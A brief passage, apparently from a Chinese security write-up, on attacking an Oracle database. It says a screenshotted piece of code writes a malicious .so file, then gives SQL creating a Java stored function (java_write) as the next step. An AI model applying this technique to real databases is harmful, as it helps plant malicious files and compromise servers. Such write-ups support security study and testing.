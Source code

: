 [![](assets/1709112088-25d3fc5a5c942b50bc7a57dbed929d6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101342-fe906912-d5de-1.png)

这段代码会写入一个恶意的 so 文件。接下来该做的就是创建 function 了。  
`sql=create or replace function java_write(path varchar2) return varchar2 as language java name 'JavaTool.write(java.lang.String) return java.lang.String';`

[![](assets/1709112088-26c54295c8791ad8bf98ca599743b273.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101349-02a3a244-d5df-1.png)
